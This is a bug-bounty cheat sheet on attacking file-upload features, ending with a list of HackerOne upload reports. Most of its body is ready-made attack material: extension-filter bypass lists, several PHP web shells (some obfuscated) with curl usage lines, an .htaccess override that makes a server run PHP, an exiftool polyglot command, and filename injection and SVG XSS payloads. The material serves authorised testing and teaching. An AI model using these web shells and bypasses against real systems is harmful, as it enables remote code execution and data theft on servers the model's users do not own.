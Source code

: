 # File-Upload

> File extension

```
# extension blacklisted:
PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
ASP: .asp, .aspx, .cer, .asa
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion: .cfm, .cfml, .cfc, .dbm
Using random capitalization: .pHp, .pHP5, .PhAr
pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
# extension whitelisted:
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\\x00.jpg
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\\
file.
.html
```

* [ ] Upload `asp` file using `.cer` & `.asa` extension (IIS — Windows)
* [ ] Upload `.eml` file when `content-type = text/HTML`

> _**Payloads**_

```
<?php system($_GET["cmd"]);?> # ?cmd= (ex: ?cmd=ls -la")
<?=`$_GET[0]`?>               # ?0=command

<?=`$_POST[0]`?>          
# Usage : curl -X POST http://target.com/path/to/shell.php -d "0=command"

<?=`{$_REQUEST['_']}`?>      
# Usage: http://target.com/path/to/shell.php?_=command OR curl -X POST http://target.com/path/to/shell.php -d "_=command" '

<?=$_="";$_="'" ;$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
# Usage : http://target.com/path/to/shell.php?0=command

<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
# Usage : http://target.com/path/to/shell.php?_=function&__=argument http://target.com/path/to/shell.php?_=system&__=ls
```

> **Content type**

```
- Preserve name, but change content-type
Content-Type: image/jpeg, image/gif, image/png
```

> **Content length**

```
# Small bad code:
<?='$_GET[x]'?>    
```

> **Impact by extension**

```php
asp, aspx, php5, php, php3: -->  webshell, rce
svg:                        --> stored xss, ssrf, xxe
gif:                        --> stored xss, ssrf
csv:                        --> csv injection
xml:                        --> xxe 
avi:                        --> lfi, ssrf
html, js:                   --> html injection, xss, open redirect
png, jpeg:                  --> pixel flood attack dos
zip:                        --> rce via lfi, dos
pdf, pptx:                  --> ssrf, blind xxe
```

> **File name**

* [ ] Path traversal `../../etc/passwd/logo.png` `../../../logo.png`
* [ ] SQLi `'sleep(10).jpg` `sleep(10)-- -.jpg`
* [ ] Command injection `; sleep 10;`
* [ ] XSS `<svg onload=alert(document.comain)>.svg`

> **Other Test Cases**

*   [ ] Image-Tragic SVG images are just XML data. Using XML you can achieve lots of vulnerabilities, for instance Image Magic which is an image processing library is vulnerable to SSRF and RCE vulnerabilities.

    Source (Facebook RCE): [Facebook's ImageTragick Remote Code Execution (4lemon.ru)](http://4lemon.ru/2017-01-17\_facebook\_imagetragick\_remote\_code\_execution.html)

[**Web shell upload via extension blacklist bypass**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) **\[Overriding the server configuration]**

* ```php
  ------WebKitFormBoundary0G2tBRqMoRVtGqfG
  Content-Disposition: form-data; name="avatar"; filename=".htaccess"
  Content-Type: text/plain

  AddType application/x-httpd-php .l33t
  ------------------------------------------
  then 
  ------WebKitFormBoundary0G2tBRqMoRVtGqfG
  Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
  Content-Type: application/octet-stream

  <?php echo file_get_contents('/home/carlos/secret'); ?>
  ------WebKitFormBoundary0G2tBRqMoRVtGqfG
  ```

[**Remote code execution via polyglot web shell upload**](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

* ```sh
  exiftool.exe -Comment="<?php echo 'START ' . 'Hacked By h3ckt00r :)' . ' END'; ?>" download.png -o polyglot.php
  ```
* [ ] EXIF-DATA not Stripped
  1. Got to Github ( https://github.com/ianare/exif-samples/tree/master/jpg)\\
  2. There are lot of images having resolutions (i.e 1280 \* 720 ) , and also whith different MB’s .\\
  3. Go to Upload option on the website\\
  4. Upload the image\\
  5. see the path of uploaded image ( Either by right click on image then copy image address OR right click, inspect the image, the URL will come in the inspect , edit it as html )
  6. open it (http://exif.regex.info/exif.cgi)
  7. See whether is that still showing exif data , if it is then Report it. **Reports (Hackerone)**
  8. [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)

> **File Upload Exploitation**

**SVG file To XSS**

* ```html
  	<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  	<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
  	<script type="text/javascript">
  	alert("h3ckt00r XSS");
  	</script>
  	</svg>
  ```

**Open Redirect when uploading svg files**

* ```html
      <code>
      <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
      <svg
      onload="window.location='<http://www.google.com>'"
      xmlns="<http://www.w3.org/2000/svg>">
      </svg>
      </code>
      
  ```

## Top Upload reports from HackerOne: <a href="#top-upload-reports-from-hackerone" id="top-upload-reports-from-hackerone"></a>

1. [Remote Code Execution on www.semrush.com/my\_reports on Logo upload](https://hackerone.com/reports/403417) to Semrush - 792 upvotes, $0
2. [Webshell via File Upload on ecjobs.starbucks.com.cn](https://hackerone.com/reports/506646) to Starbucks - 673 upvotes, $0
3. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 412 upvotes, $1000
4. [Unrestricted file upload on \[ambassador.mail.ru\] ](https://hackerone.com/reports/854032)to Mail.ru - 404 upvotes, $3000
5. [\[ RCE \] Through stopping the redirect in /admin/\* the attacker able to bypass Authentication And Upload Malicious File](https://hackerone.com/reports/683957) to Mail.ru - 340 upvotes, $0
6. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/808862) to Visma Public - 268 upvotes, $250
7. [SSRF leaking internal google cloud data through upload function \[SSH Keys, etc..\]](https://hackerone.com/reports/549882) to Vimeo - 249 upvotes, $0
8. [Arbitrary File Upload to Stored XSS](https://hackerone.com/reports/808821) to Visma Public - 245 upvotes, $250
9. [Unrestricted File Upload Leads to RCE on mobile.starbucks.com.sg](https://hackerone.com/reports/1027822) to Starbucks - 225 upvotes, $0
10. [Admin Management - Login Using Default Password - Leads to Image Upload Backdoor/Shell](https://hackerone.com/reports/699030) to Razer - 199 upvotes, $200
11. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 139 upvotes, $2727
12. [Unrestricted file upload in www.semrush.com > /my\_reports/api/v1/upload/image](https://hackerone.com/reports/748903) to Semrush - 124 upvotes, $0
13. [User can upload files even after closing his account](https://hackerone.com/reports/1020371) to Basecamp - 114 upvotes, $0
14. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 112 upvotes, $0
15. [Insecure file upload in xiaoai.mi.com Lead to Stored XSS](https://hackerone.com/reports/882733) to Xiaomi - 107 upvotes, $0
16. [Unrestricted File Upload on https://partner.tiktokshop.com/wsos\_v2/oec\_partner/upload](https://hackerone.com/reports/1890284) to TikTok - 98 upvotes, $0
17. [\[insideok.ru\] Remote Command Execution via file upload.](https://hackerone.com/reports/666716) to ok.ru - 94 upvotes, $0
18. [Avatar upload allows arbitrary file overwriting](https://hackerone.com/reports/671605) to Mail.ru - 88 upvotes, $750
19. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/880099) to GitLab - 82 upvotes, $0
20. [Unauthenticated user can upload an attachment to the last updated report draft](https://hackerone.com/reports/419896) to HackerOne - 80 upvotes, $0
21. [XSS from arbitrary attachment upload.](https://hackerone.com/reports/831703) to Qulture.Rocks - 74 upvotes, $0
22. [Open s3 bucket allows for public upload](https://hackerone.com/reports/504600) to Augur - 73 upvotes, $100
23. [SSRF and local file disclosure by video upload on https://www.redtube.com/upload](https://hackerone.com/reports/570537) to Pornhub - 61 upvotes, $500
24. [Cross site scripting via file upload in subdomain ads.tiktok.com](https://hackerone.com/reports/1433125) to TikTok - 59 upvotes, $500
25. [Unrestricted file upload when creating quotes allows for Stored XSS](https://hackerone.com/reports/788397) to Visma Public - 57 upvotes, $250
26. [Singapore - Unrestricted File Upload Leads to XSS on campaign.starbucks.com.sg/api/upload](https://hackerone.com/reports/883151) to Starbucks - 57 upvotes, $0
27. [Stored XSS on upload files leads to steal cookie](https://hackerone.com/reports/765679) to Palo Alto Software - 56 upvotes, $0
28. [SSRF and local file disclosure by video upload on https://www.tube8.com/](https://hackerone.com/reports/574133) to Pornhub - 53 upvotes, $500
29. [Unrestricted File Upload Results in Cross-Site Scripting Attacks](https://hackerone.com/reports/1005355) to Uber - 53 upvotes, $0
30. [SSRF in VCARD photo upload functionality](https://hackerone.com/reports/296045) to Open-Xchange - 49 upvotes, $850
